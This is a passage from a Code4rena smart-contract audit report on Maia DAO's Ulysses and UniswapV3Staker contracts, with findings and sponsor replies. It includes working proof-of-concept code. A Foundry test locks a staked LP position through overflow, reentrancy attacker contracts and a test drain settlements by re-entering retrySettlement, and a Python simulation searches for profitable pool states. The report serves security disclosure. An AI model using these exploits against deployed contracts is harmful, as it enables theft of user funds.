        RequestContext memory _ctx, 
        bytes memory _extdata
    )
        external
        virtual
        lock
        whenNotPaused
        chargeDestFee(_to, _ctx.flags)
        onlyMPC
    {
        IAnycallConfig(config).checkExec(_appID, _ctx.from, _to);
        bytes32 uniqID = calcUniqID(
            _ctx.txhash,
            _ctx.from,
            _ctx.fromChainID,
            _ctx.nonce
        );
        require(!execCompleted[uniqID], "exec completed");

        bool success = _execute(_to, _data, _ctx, _extdata);
        // success = false on purpose, because when it is true, it consumes less gas. so we are considering worse case here

        // set exec completed (dont care success status)
        execCompleted[uniqID] = true;

        if (!success) {
            if (_isSet(_ctx.flags, AnycallFlags.FLAG_ALLOW_FALLBACK)) { 
                // this will be executed here since the call failed
                // Call the fallback on the originating chain
                nonce++;
                string memory appID = _appID; // fix Stack too deep
                emit Log`AnyCall`(
                    _to,
                    _ctx.from,
                    _data,
                    _ctx.fromChainID,
                    AnycallFlags.FLAG_EXEC_FALLBACK |
                        AnycallFlags.FLAG_PAY_FEE_ON_DEST, // pay fee on dest chain
                    appID,
                    nonce,
                    ""
                );
            } else {
                // Store retry record and emit a log
                bytes memory data = _data; // fix Stack too deep
                retryExecRecords[uniqID] = keccak256(abi.encode(_to, data));
                emit StoreRetryExecRecord(
                    _ctx.txhash,
                    _ctx.from,
                    _to,
                    _ctx.fromChainID,
                    _ctx.nonce,
                    data
                );
            }
        }
    }
}

contract GasCalc`AnyCall`v7 is DSTest, Test {


    AnycallV7 anycallV7;
    address mpc = vm.addr(7);
    function setUp() public {
        anycallV7 = new AnycallV7(mpc);
    }

    function test_gasInanycallv7() public {

        vm.prank(mpc);
        AnycallV7.RequestContext memory ctx = AnycallV7.RequestContext({
            txhash:keccak256(""),
            from:address(0),
            fromChainID:1,
            nonce:1,
            flags:AnycallFlags.FLAG_ALLOW_FALLBACK
        });
        uint256 gasStart_ = gasleft();
        anycallV7.anyExec(address(0),bytes(""),"1",ctx,bytes(""));
        uint256 gasEnd_ = gasleft();
        vm.stopPrank();
        uint256 gasSpent_ = gasStart_ - gasEnd_;
        console.log("anycallV7.anyExec Gas Spent => %d", gasSpent_);
    }
}

```

</details>

### Recommended Mitigation Steps

Increase the `MIN_EXECUTION_OVERHEAD` by:

- `20_000` for `RootBridgeAgent.anyExecute`.
- `110_000` for `anyExec` method in ``AnyCall``.

`20_000 + 110_000 = 130_000`

So `MIN_EXECUTION_OVERHEAD` becomes `290_000` instead of `160_000`.

Additionally, calculate the gas consumption of the input data passed then add it to the cost.

I suggest that the `MIN_EXECUTION_OVERHEAD` should be configurable/changeable. After launching `OmniChain` for some time, collect stats about the actual gas used for ``AnyCall`` on the chain, then adjust it accordingly. This also keeps you on the safe side in case any changes are applied on ``AnyCall`` contracts in future, since it is upgradable.

**[0xBugsy (Maia) disagreed with severity and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/607#issuecomment-1632794421):**
> The variable data cost should be addressed by consulting `premium()`. The value is used in their calcualtions here: `uint256 totalCost = gasUsed * (tx.gasprice + _feeData.premium)`. We should abide and only pay as much as they will credit us as the remainder belonging to the user.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/607#issuecomment-1648026090):**
 > Similar to #764 but different LOC and ultimately different vulnerability. 

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/607#issuecomment-1655676440):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[H-17] Second per liquidity inside could overflow `uint256` causing the LP position to be locked in `UniswapV3Staker`](https://github.com/code-423n4/2023-05-maia-findings/issues/505)
*Submitted by [minhquanym](https://github.com/code-423n4/2023-05-maia-findings/issues/505)*

`UniswapV3Staker` depends on the second per liquidity inside values from the `Uniswap V3 Pool` to calculate the amount of rewards a position should receive. This value represents the amount of second liquidity inside a tick range that is "active" (`tickLower < currentTick < tickUpper`). The second per liquidity inside a specific tick range is supposed to always increase over time.

In the `RewardMath` library, the seconds inside are calculated by taking the current timestamp value and subtracting the value at the moment the position is staked. Since this value increases over time, it should be normal. Additionally, this implementation is similar to [Uniswap Team's implementation](https://github.com/Uniswap/v3-staker/blob/4328b957701de8bed83689aa22c32eda7928d5ab/contracts/libraries/RewardMath.sol#L35).

```solidity
function computeBoostedSecondsInsideX128(
    uint256 stakedDuration,
    uint128 liquidity,
    uint128 boostAmount,
    uint128 boostTotalSupply,
    uint160 secondsPerLiquidityInsideInitialX128,
    uint160 secondsPerLiquidityInsideX128
) internal pure returns (uint160 boostedSecondsInsideX128) {
    // this operation is safe, as the difference cannot be greater than 1/stake.liquidity
    uint160 secondsInsideX128 = (secondsPerLiquidityInsideX128 - secondsPerLiquidityInsideInitialX128) * liquidity;
    // @audit secondPerLiquidityInsideX128 could smaller than secondsPerLiquidityInsideInitialX128
    ...
}
```

However, even though the second per liquidity inside value increases over time, it could overflow `uint256`, resulting in the calculation reverting. When `computeBoostedSecondsInsideX128()` reverts, function `_unstake()` will also revert, locking the LP position in the contract forever.

### Proof of Concept

Consider the value of the second per liquidity in three different timestamps: `t1 < t2 < t3`

```solidity
secondPerLiquidity_t1 = -10 = 2**256-10
secondPerLiquidity_t2 = 100
secondPerLiquidity_t3 = 300
```

As we can see, its value always increases over time, but the initial value could be smaller than 0. When calculating `computeBoostedSecondsInsideX128()` for a period from `t1 -> t2`, it will revert.

Additionally, as I mentioned earlier, this implementation is similar to the one from Uniswap team. However, please note that the Uniswap team used Solidity 0.7, which won't revert on overflow and the formula works as expected while Maia uses Solidity 0.8.

For more information on how a tick is initialized, please refer to [this code](https://github.com/Uniswap/v3-core/blob/d8b1c635c275d2a9450bd6a78f3fa2484fef73eb/contracts/libraries/Tick.sol#L132-L142)

```solidity
if (liquidityGrossBefore == 0) {
    // by convention, we assume that all growth before a tick was initialized happened _below_ the tick
    if (tick <= tickCurrent) {
        info.feeGrowthOutside0X128 = feeGrowthGlobal0X128;
        info.feeGrowthOutside1X128 = feeGrowthGlobal1X128;
        info.secondsPerLiquidityOutsideX128 = secondsPerLiquidityCumulativeX128;
        info.tickCumulativeOutside = tickCumulative;
        info.secondsOutside = time;
    }
    info.initialized = true;
}
```

The second per liquidity inside a range that has `tickLower < currentTick < tickUpper` is [calculated as](https://github.com/Uniswap/v3-core/blob/d8b1c635c275d2a9450bd6a78f3fa2484fef73eb/contracts/UniswapV3Pool.sol#L221):

```solidity
secondsPerLiquidityCumulativeX128 - tickLower.secondsPerLiquidityOutsideX128 - tickUpper.secondsPerLiquidityOutsideX128

// If lower tick is just init,
// Then: secondsPerLiquidityCumulativeX128 = tickLower.secondsPerLiquidityOutsideX128
// And: tickUpper.secondsPerLiquidityOutsideX128 != 0
// => Result will be overflow
```

### Recommended Mitigation Steps

Consider using an `unchecked` block to calculate this value.

### Assessed type

Under/Overflow

**[minhquanym (warden) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/505#issuecomment-1630850795):**
 > I received permission to add the PoC from the judge. 
> 
> This is modified from `testFullIncentiveNoBoost()`. Please add this to the end of `UniswapV3StakerTest.t.sol`.
> 
> There are comments describing each step to simulate the issues in the code:
> 
> ```solidity
> struct SwapCallbackData {
>     bool zeroForOne;
> }
> 
> function uniswapV3SwapCallback(int256 amount0, int256 amount1, bytes calldata _data) external {
>     require(msg.sender == address(pool), "FP");
>     require(amount0 > 0 || amount1 > 0, "LEZ"); // swaps entirely within 0-liquidity regions are not supported
>     SwapCallbackData memory data = abi.decode(_data, (SwapCallbackData));
>     bool zeroForOne = data.zeroForOne;
> 
>     if (zeroForOne) {
>         token0.mint(address(this), uint256(amount0));
>         token0.transfer(msg.sender, uint256(amount0));
>     }
>     else {
>         token1.mint(address(this), uint256(amount1));
>         token1.transfer(msg.sender, uint256(amount1));
>     }
> }
> 
> // Test minting a position and transferring it to Uniswap V3 Staker, after creating a gauge
> function testAudit1() public {
>     // Create a Uniswap V3 pool
>     (pool, poolContract) =
>         UniswapV3Assistant.createPool(uniswapV3Factory, address(token0), address(token1), poolFee);
> 
>     // Initialize 1:1 0.3% fee pool
>     UniswapV3Assistant.initializeBalanced(poolContract);
>     hevm.warp(block.timestamp + 100);
> 
>     // 3338502497096994491500 to give 1 ether per token with 0.3% fee and -60,60 ticks
>     uint256 _tokenId0 = newNFT(-180, 180, 3338502497096994491500);
>     uint256 _tokenId1 = newNFT(-60, 60, 3338502497096994491500);
> 
>     hevm.warp(block.timestamp + 100);
> 
>     // @audit Step 1: Swap to make currentTick go to (60, 180) range
>     uint256 amountSpecified = 30 ether;
>     bool zeroForOne = false;
>     pool.swap(
>         address(this),
>         zeroForOne,
>         int256(amountSpecified),
>         1461446703485210103287273052203988822378723970342 - 1, // MAX_SQRT_RATIO - 1
>         abi.encode(SwapCallbackData({zeroForOne: zeroForOne}))
>     );
>     (, int24 _currentTick, , , , ,) = pool.slot0();
>     console2.logInt(int256(_currentTick));
> 
>     hevm.warp(block.timestamp + 100);
> 
>     // @audit Step 2: Swap back to make currentTick go back to (-60, 60) range
>     zeroForOne = true;
>     pool.swap(
>         address(this),
>         zeroForOne,
>         int256(amountSpecified),
>         4295128739 + 1, // MIN_SQRT_RATIO + 1 
>         abi.encode(SwapCallbackData({zeroForOne: zeroForOne}))
>     );
> 
>     (, _currentTick, , , , ,) = pool.slot0();
>     console2.logInt(int256(_currentTick));
> 
>     hevm.warp(block.timestamp + 100);
> 
>     // @audit Step 3: Create normal Incentive
>     uint256 minWidth = 10;
>     // Create a gauge
>     gauge = createGaugeAndAddToGaugeBoost(pool, minWidth);
>     // Create a Uniswap V3 Staker incentive
>     key = IUniswapV3Staker.IncentiveKey({pool: pool, startTime: IncentiveTime.computeEnd(block.timestamp)});
> 
>     uint256 rewardAmount = 1000 ether;
>     rewardToken.mint(address(this), rewardAmount);
>     rewardToken.approve(address(uniswapV3Staker), rewardAmount);
> 
>     createIncentive(key, rewardAmount);
> 
>     // @audit Step 4: Now we have secondsPerLiquidity of tick 60 is not equal to 0. 
>     //        We just need to create a position with range [-120, 60], 
>     //        then secondsPerLiquidityInside of this position will be overflow
>     hevm.warp(key.startTime + 1);
>     int24 tickLower = -120;
>     int24 tickUpper = 60;
>     uint256 tokenId = newNFT(tickLower, tickUpper, 3338502497096994491500);
>     (, uint160 secondsPerLiquidityInsideX128,) = pool.snapshotCumulativesInside(tickLower, tickUpper);
>     console2.logUint(uint256(secondsPerLiquidityInsideX128));
> 
>     // @audit Step 5: Stake the position
>     // Transfer and stake the position in Uniswap V3 Staker
>     nonfungiblePositionManager.safeTransferFrom(address(this), address(uniswapV3Staker), tokenId);
>     (address owner,,, uint256 stakedTimestamp) = uniswapV3Staker.deposits(tokenId);
> 
>     // @audit Step 6: Increase time to make `secondsPerLiquidity` go from negative to positive value
>     //        Then `unstakeToken` will revert
>     hevm.warp(block.timestamp + 5 weeks);
> 
>     (, secondsPerLiquidityInsideX128,) = pool.snapshotCumulativesInside(tickLower, tickUpper);
>     console2.logUint(uint256(secondsPerLiquidityInsideX128));
> 
>     uniswapV3Staker.unstakeToken(tokenId);
> }
> ```

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/505#issuecomment-1632881638)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/505#issuecomment-1709165385):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/505).

***

## [[H-18] Reentrancy attack possible on `RootBridgeAgent.retrySettlement()` with missing access control for `RootBridgeAgentFactory.createBridgeAgent()`](https://github.com/code-423n4/2023-05-maia-findings/issues/492)
*Submitted by [peakbolt](https://github.com/code-423n4/2023-05-maia-findings/issues/492), also found by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/295)*

`RootBridgeAgent.retrySettlement()` is lacking a `lock` modifier to prevent reentrancy and `RootBridgeAgentFactory.createBridgeAgent()` is missing access control. Both issues combined allow anyone to re-enter `retrySettlement()` and trigger the same settlement repeatedly.

### Impact

An attacker can steal funds from the protocol by executing the same settlement multiple times before it is marked as executed.

### Issue #1

In `RootBridgeAgentFactory`, the privileged function `createBridgeAgent()` is lacking access control, which allows anyone to deploy a new `RootBridgeAgent`. Leveraging that, the attacker can inject malicious `RootRouter` and `BranchRouter` that can be used to trigger a reentrancy attack in `retrySettlement()`. Injection of the malicious `BranchRouter` is done with a separate call to `CoreRootRouter.addBranchToBridgeAgent()` in [CoreRootRouter.sol#L81-L116](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/CoreRootRouter.sol#L81-L116), refer to POC for actual steps.

```Solidity
    function createBridgeAgent(address _newRootRouterAddress) external returns (address newBridgeAgent) {
        newBridgeAgent = address(
            DeployRootBridgeAgent.deploy(
                wrappedNativeToken,
                rootChainId,
                daoAddress,
                local`AnyCall`Address,
                local`AnyCall`ExecutorAddress,
                rootPortAddress,
                _newRootRouterAddress
            )
        );

        IRootPort(rootPortAddress).addBridgeAgent(msg.sender, newBridgeAgent);
    }
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/factories/RootBridgeAgentFactory.sol#L75C1-L89C6>

### Issue #2

In `RootBridgeAgent`, the `retrySettlement()` function is not protected from reentrancy with the `lock` modifier. We can then re-enter this function via the injected malicious `BranchRouter` (Issue #1). The malicious `BranchRouter` can be triggered via `BranchBridgeAgentExecutor` when the attacker performs the settlement call. That will execute `IRouter(_router).anyExecuteSettlement()` when additional `calldata` is passed in, as shown in [BranchBridgeAgentExecutor.sol#L110](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgentExecutor.sol#L110).

```Solidity
    function retrySettlement(uint32 _settlementNonce, uint128 _remoteExecutionGas) external payable {
        //Update User Gas available.
        if (initialGas == 0) {
            userFeeInfo.depositedGas = uint128(msg.value);
            userFeeInfo.gasToBridgeOut = _remoteExecutionGas;
        }
        //Clear Settlement with updated gas.
        _retrySettlement(_settlementNonce);
    }
```
<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L244-L252>

### Proof of Concept

1. First append the following malicious router contracts to `RootTest.t.sol`:

```Solidity
import {
    SettlementParams
} from "@omni/interfaces/IBranchBridgeAgent.sol";

contract AttackerBranchRouter is BaseBranchRouter {

    uint256 counter;

    function anyExecuteSettlement(bytes calldata data, SettlementParams memory sParams)
        external
        override
        returns (bool success, bytes memory result)
    {
        // limit the recursive loop to re-enter 4 times (just for POC purpose)
        if(counter++ == 4) return (true, "");

        address rootBridgeAgentAddress =  address(uint160(bytes20(data[0:20])));

        // Re-enter retrySettlement() before the first settlement is marked as executed
        RootBridgeAgent rootBridgeAgent = RootBridgeAgent(payable(rootBridgeAgentAddress));
        rootBridgeAgent.retrySettlement{value: 3e11 }(sParams.settlementNonce, 1e11);

        // Top-up gas for BranchBridgeAgent as retrySettlement() will refund gas after each call
        BranchBridgeAgent branchAgent = BranchBridgeAgent(payable(localBridgeAgentAddress));
        WETH9 nativeToken = WETH9(branchAgent.wrappedNativeToken());
        nativeToken.deposit{value: 1e11}();
        nativeToken.transfer(address(branchAgent), 1e11);
    }

    fallback() external payable {}
}

contract AttackerRouter is Test {

    function reentrancyAttack(
        RootBridgeAgent _rootBridgeAgent, 
        address owner,
        address recipient,
        address outputToken,
        uint256 amountOut,
        uint256 depositOut,
        uint24 toChain
    ) external payable {

        // Approve Root Port to spend/send output hTokens.
        ERC20hTokenRoot(outputToken).approve(address(_rootBridgeAgent), amountOut);

        // Encode calldata to pass in rootBridgeAgent address and 
        // also to trigger exeuction of anyExecuteSettlement
        bytes memory data = abi.encodePacked(address(_rootBridgeAgent));

        // Initiate the first settlement
        _rootBridgeAgent.callOutAndBridge{value: msg.value}(
            owner, recipient, data, outputToken, amountOut, depositOut, toChain
        );
    }
}
```

2. Then add and run following test case in the `RootTest` contract within `RootTest.t.sol`:

```Solidity
    function testPeakboltRetrySettlementReentrancy() public {
        //Set up
        testAddLocalTokenArbitrum();

        address attacker = address(0x999);

        // Attacker deploys RootBridgeAgent with malicious Routers 
        // Issue 1 - RootBridgeAgentFactory.createBridgeAgent() has no access control, 
        //           which allows anyone to create RootBridgeAgent and inject RootRouter and BranchRouter.
        hevm.startPrank(attacker);
        AttackerRouter attackerRouter = new AttackerRouter();
        AttackerBranchRouter attackerBranchRouter = new AttackerBranchRouter();
        RootBridgeAgent attackerBridgeAgent = RootBridgeAgent(
            payable(RootBridgeAgentFactory(bridgeAgentFactory).createBridgeAgent(address(attackerRouter)))
        );
        attackerBridgeAgent.approveBranchBridgeAgent(ftmChainId);
        hevm.stopPrank();

        //Get some gas.
        hevm.deal(attacker, 0.1 ether);
        hevm.deal(address(attackerBranchRouter), 0.1 ether);

        // Add FTM branchBridgeAgent and inject the malicious BranchRouter 
        hevm.prank(attacker);
        rootCoreRouter.addBranchToBridgeAgent{value: 1e12}(
            address(attackerBridgeAgent),
            address(ftmBranchBridgeAgentFactory),
            address(attackerBranchRouter),
            address(ftmCoreRouter),
            ftmChainId,
            5e11
        );

        // Initialize malicious BranchRouter with the created BranchBridgeAgent for FTM 
        BranchBridgeAgent attackerBranchBridgeAgent = BranchBridgeAgent(payable(attackerBridgeAgent.getBranchBridgeAgent(ftmChainId)));
        hevm.prank(attacker);
        attackerBranchRouter.initialize(address(attackerBranchBridgeAgent));


        // Get some hTokens for attacker to create the first settlement
        uint128 settlementAmount = 10 ether;
        hevm.prank(address(rootPort));
        ERC20hTokenRoot(newAvaxAssetGlobalAddress).mint(attacker, settlementAmount, rootChainId);

        console2.log("STATE BEFORE:");

        // Attacker should have zero AvaxAssetLocalToken before bridging to FTM via the settlement
        console2.log("Attacker newAvaxAssetLocalToken (FTM) Balance: \t", MockERC20(newAvaxAssetLocalToken).balanceOf(attacker));
        require(MockERC20(newAvaxAssetLocalToken).balanceOf(attacker) == 0);

        // Attacker will start with 1e18 hTokens for the first settlement
        console2.log("Attacker Global Balance: \t", MockERC20(newAvaxAssetGlobalAddress).balanceOf(attacker));
        require(MockERC20(newAvaxAssetGlobalAddress).balanceOf(attacker) == settlementAmount);

        // Expect next settlementNonce to be '1' before settlement creation
        console2.log("attackerBridgeAgent.settlementNonce: %d", attackerBridgeAgent.settlementNonce());
        require(attackerBridgeAgent.settlementNonce() == 1);

        // Execution history in BranchBridgeAgent is not marked yet
        console2.log("attackerBranchBridgeAgent.executionHistory(1) = %s", attackerBranchBridgeAgent.executionHistory(1));
        console2.log("attackerBranchBridgeAgent.executionHistory(2) = %s", attackerBranchBridgeAgent.executionHistory(2));


        // Attacker transfers hTokens into router, triggers the first settlement and then the reentrancy attack
        // Issue 2 - RootBridgeAgent.retrySettlement() has no lock to prevent reentrancy 
        //           We can re-enter retrySettlement() via the injected malicious BranchRouter (above)
        //           Refer to AttackerRouter and AttackerBranchRouter contracts to see the reentrance calls
        hevm.prank(attacker);
        MockERC20(newAvaxAssetGlobalAddress).transfer(address(attackerRouter), settlementAmount);

        hevm.prank(attacker);
        attackerRouter.reentrancyAttack{value: 1e13 }(attackerBridgeAgent, attacker, attacker, address(newAvaxAssetGlobalAddress), settlementAmount,  0, ftmChainId);
  

        console2.log("STATE AFTER:");

        // Attacker will now have 5e19 AvaxAssetLocalToken after using 1e19 and some gas to perform 4x recursive reentrancy attack
        console2.log("Attacker newAvaxAssetLocalToken (FTM) Balance: ", MockERC20(newAvaxAssetLocalToken).balanceOf(attacker));
        require(MockERC20(newAvaxAssetLocalToken).balanceOf(attacker) == 5e19);

        // The hTokens have been used for the first settlement
        console2.log("Attacker Global Balance: ", MockERC20(newAvaxAssetGlobalAddress).balanceOf(attacker));
        require(MockERC20(newAvaxAssetGlobalAddress).balanceOf(attacker) == 0);

        // Expect next settlementNonce to be '2' as we only used '1' for the attacker
        console2.log("attackerBridgeAgent.settlementNonce: %d",  attackerBridgeAgent.settlementNonce());
        require(attackerBridgeAgent.settlementNonce() == 2);

        // This shows that only execution is marked for settlementNonce '1' 
        console2.log("attackerBranchBridgeAgent.executionHistory(1): %s", attackerBranchBridgeAgent.executionHistory(1));
        console2.log("attackerBranchBridgeAgent.executionHistory(2): %s", attackerBranchBridgeAgent.executionHistory(2));
    
    }
```

### Recommended Mitigation Steps

Add a `lock` modifier to `RootBridgeAgent.retrySettlement()` and add access control to `RootBridgeAgentFactory.createBridgeAgent()`.

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/492#issuecomment-1632816163):**
 > Due to a cross-chain tx being composed of several txs on different networks, this would only be feasible on arbitrum, since it's the only chain where both `root` and `branch` contracts co-exist; allowing you to nest new retrys inside the previous. Otherwise, the nonce would be flagged as executed in the execution history after the first successful run. But definitely the `lock` should be added.

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/492#issuecomment-1641038311):**
 > To give a little further context on my reply: 
> 
> 1. The permissionless addition of `Bridge Agent` does not expose any unintended functions to the `Router`, so this part is completely intended on our behalf.
> 
> 2. The core issue here, really resides on the fact that the `executionHistory[nonce] = true;` should be done in the `Branch` and `Root` `Bridge Agents` before and not after (respecting CEI), calling their respective `Executor` within a try-catch block. Adding a `lock` can also be introduced as a safe-guard, but adding that by itself we would still be able to do this attack once within the original settlement.

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/492#issuecomment-1709165849):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/183-492-688-869).

***

## [[H-19] An attacker can exploit the "deposit" to drain the `Ulysess Liquidity Pool`](https://github.com/code-423n4/2023-05-maia-findings/issues/435)
*Submitted by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/435)*

Users have two methods to add liquidity to the `Ulysses Pool`: "mint" and "deposit". However, the latter may return an inaccurate output, which could be exploited to drain the pool.

### Proof of Concept

In the process to mint the `amount` of shares, the state change is `A:(band, supply * weight) -> B:(band+update, (supply+amount) * weight)`. The user pays `amount-sum(posFee)+sum(negFee)` of the underlying to acquire the `amount` of shares. This approach is precise.

In the process to deposit the `amount` of underlying, the simulated state change is `A:(band, supply * weight) -> B:(band+update, (supply+amount) * weight)`. Then, `(posFee, negFee)` is derived from the simulation of `A -> B`. The actual state change is `A:(band, supply * weight) -> B':(band+update+posFee, (supply+amount+sum(posFee)-sum(negFee)) * weight)`. We denote the actual fee of `A -> B'` as `(posFee', negFee')`. The user pays the `amount` of underlying to acquire `amount+sum(posFee)-sum(negFee)` of shares. This approach would be acceptable if `sum(pos')-sum(neg') >= sum(pos)`, but this inequality doesn't always hold. If `sum(pos')-sum(neg') < sum(pos)` insolvency occurs; and if `sum(pos')-sum(neg') < sum(pos)-sum(neg)`, the user could take profit.

An example is given below:

    amount = 10000000
    supply = 1000000000000000013287555072
    weight = [1, 59, 47]
    band = [99452334745147595191585509, 4253569467850027815346666, 216725069177793291903286517]

When Alice deposits `10000000` underlying, they will get `36215776` shares. However, the pool actually worsens.

    oldRebalancingFee = [0, 10519971631761767037843097, 18152377668510835770992]
    newRebalancingFee = [0, 10519971631761767000804564, 18152377668510882599904]
    oldMinusNew = [0, +37038533, -46828912]

Actually, there should be a systemic approach to construct states of `sum(pos')-sum(neg') < sum(pos)-sum(neg)` for attacks. However, due to limited time, I have only conducted random tests. By continuously searching for profitable states and modifying the pool state accordingly, attackers can eventually drain the pool.

### FAQ

Here are several questions that readers may have:

Q: Why there are three different scenarios? Why could insolvency and user loss happen simultaneously?<br>
A: Imagine when you deposit `$`100 to the bank, the bank increases your balance by `$`80 and claims it has got `$`120.

Q: Why can `sum(pos')-sum(neg') >= sum(pos)` not hold?<br>
A: Difficult question! Roughly this could happen when the amount is significantly smaller than `supply` and `posFee` is excessively large.

Q: How can the pool be modified to a target state?<br>
A: There are several methods including "mint", "redeem" and "swap" but the "deposit" method should not be used until we reach the target state because the attacker will mostly experience losses from that.

Q: Why can the attacker eventually drain the pool?<br>
A: When calling "mint", "redeem" or "swap", the attacker pays exactly the delta value of `_calculateRebalancingFee`. However, when making a "deposit", the attacker receives more than what they deserve. At last, by adding liquidity, `_calculateRebalancingFee` can be reduced, so the pool will be drained.

Q: Why don't you provide a coded POC of attack?<br>
A: We know "deposit" is dangerous and we deprecate it, that's enough.

### Tools Used

Python

<details>


    # -*- coding: utf-8 -*-
    """
    Created on Mon Jun 19 10:24:56 2023

    @author: xuwinnie
    """

    from random import *

    def getBandwidthUpdateAmounts(roundUp, positiveTransfer, amount, _totalWeights, _totalSupply):
        # Get the bandwidth state list length
        global length, weightArray, bandwithArray

        # Initialize bandwidth update amounts
        bandwidthUpdateAmounts = [0] * length
        # Initialize bandwidth differences from target bandwidth
        diffs = [0] * length

        # Total difference from target bandwidth of all bandwidth states
        totalDiff = 0
        # Total difference from target bandwidth of all bandwidth states
        transfered = 0
        # Total amount to be distributed according to each bandwidth weights
        transferedChange = 0

        for i in range(length):
            # Load bandwidth and weight from storage
            # Bandwidth is the first 248 bits of the slot
            bandwidth = bandwithArray[i]
            # Weight is the last 8 bits of the slot
            weight = weightArray[i]

            # Calculate the target bandwidth
            targetBandwidth = (_totalSupply * weight) // _totalWeights

            # Calculate the difference from the target bandwidth
            if positiveTransfer:
                # If the transfer is positive, calculate deficit from target bandwidth
                if targetBandwidth > bandwidth:
                    # Calculate the difference
                    diff = targetBandwidth - bandwidth
                    # Add the difference to the total difference
                    totalDiff += diff
                    # Store the difference in the diffs array
                    diffs[i] = diff
            else:
                # If the transfer is negative, calculate surplus from target bandwidth
                if bandwidth > targetBandwidth:
                    # Calculate the difference
                    diff = bandwidth - targetBandwidth
                    # Add the difference to the total difference
                    totalDiff += diff
                    # Store the difference in the diffs array
                    diffs[i] = diff

        # Calculate the amount to be distributed according deficit/surplus
        # and/or the amount to be distributed according to each bandwidth weights
        if amount > totalDiff:
            # If the amount is greater than the total deficit/surplus
            # Total deficit/surplus is distributed
            transfered = totalDiff
            # Set rest to be distributed according to each bandwidth weights
            transferedChange = amount - totalDiff
        else:
            # If the amount is less than the total deficit/surplus
            # Amount will be distributed according to deficit/surplus
            transfered = amount

        for i in range(length):
            # Increase/decrease amount of bandwidth for each bandwidth state
            bandwidthUpdate = 0

            # If there is a deficit/surplus, calculate the amount to be distributed
            if transfered > 0:
                # Load the difference from the diffs array
                diff = diffs[i]

                # Calculate the amount to be distributed according to deficit/surplus
                if roundUp:
                    bandwidthUpdate = (transfered * diff + totalDiff - 1) // totalDiff
                else:
                    bandwidthUpdate = (transfered * diff) // totalDiff
            # If there is a rest, calculate the amount to be distributed according to each bandwidth weights
            if transferedChange > 0:
                # Load weight from storage
                weight = weightArray[i]

                # Calculate the amount to be distributed according to each bandwidth weights
                if roundUp:
                    bandwidthUpdate += (transferedChange * weight + _totalWeights - 1) // _totalWeights
                else:
                    bandwidthUpdate += (transferedChange * weight) // _totalWeights

            # If there is an update in bandwidth
            if bandwidthUpdate > 0:
                # Store the amount to be updated in the bandwidthUpdateAmounts array
                bandwidthUpdateAmounts[i] = bandwidthUpdate

        return (bandwidthUpdateAmounts, length)

    def updateBandwidth(depositFees, positiveTransfer, destinationState, difference, _totalWeights, _totalSupply, _newTotalSupply):
        global weightArray, bandwithArray
        
        print("  updating "+str(destinationState)+" with diffrence "+str(difference))
        bandwidth = bandwithArray[destinationState]
        print("    old bandwith "+str(bandwidth))
        weight = weightArray[destinationState]

        # Get the target bandwidth
        targetBandwidth = (_totalSupply * weight) // _totalWeights

        # Get the rebalancing fee prior to updating the bandwidth
        oldRebalancingFee = calculateRebalancingFee(bandwidth, targetBandwidth, positiveTransfer)

        if positiveTransfer:
            # If the transfer is positive
            # Add the difference to the bandwidth
            bandwidth += difference

        else:
            # If the transfer is negative
            # Subtract the difference from the bandwidth
            bandwidth -= difference

        if _newTotalSupply > 0:
            # True on deposit, mint and redeem
            # Get the new target bandwidth after total supply change
            targetBandwidth = (_newTotalSupply * weight) // _totalWeights

        # Get the rebalancing fee after updating the bandwidth
        newRebalancingFee = calculateRebalancingFee(bandwidth, targetBandwidth, positiveTransfer)

        positiveFee, negativeFee = 0, 0
        if newRebalancingFee < oldRebalancingFee:
            # If new fee is lower than old fee
            # Calculate the positive fee
            positiveFee = oldRebalancingFee - newRebalancingFee
            print("    positiveFee "+str(positiveFee))

            if depositFees:
                # If depositFees is true, add the positive fee to the bandwidth
                bandwidth += positiveFee

        else:
            # If new fee is higher than old fee
            if newRebalancingFee > oldRebalancingFee:
                # Calculate the negative fee
                negativeFee = newRebalancingFee - oldRebalancingFee
                print("    negativeFee "+str(negativeFee))
                #raise Exception("good")
            else: print("    no fee")

        # Update storage with the new bandwidth
        bandwithArray[destinationState] = bandwidth
        print("    new bandwith "+str(bandwidth))

        return (positiveFee, negativeFee)

    def calculateRebalancingFee(bandwidth, targetBandwidth, roundDown):
        # If the bandwidth is larger or equal to the target bandwidth, return 0
        if bandwidth >= targetBandwidth:
            return 0

        # Fee tier 1 (fee % divided by 2)
        lambda1 = int(20e14)
        # Fee tier 2 (fee % divided by 2)
        lambda2 = int(4980e14)
        # Get sigma2 from the first 8 bytes of the fee slot
        sigma2 = int(500e14)
        # Get sigma1 from the next 8 bytes of the fee slot
        sigma1 = int(6000e14)
        
        # Calculate the upper bound for the first fee
        upperBound1 = (targetBandwidth * sigma1) // DIVISIONER
        # Calculate the upper bound for the second fee
        upperBound2 = (targetBandwidth * sigma2) // DIVISIONER

        if bandwidth >= upperBound1:
            return 0

        maxWidth = upperBound1 - upperBound2

        # If the bandwidth is smaller than upperBound2
        if bandwidth >= upperBound2:
            # Calculate the fee for the first interval
            fee = calcFee(lambda1, maxWidth, upperBound1, bandwidth, 0, roundDown)
        else:
            # Calculate the fee for the first interval
            fee = calcFee(lambda1, maxWidth, upperBound1, upperBound2, 0, roundDown)

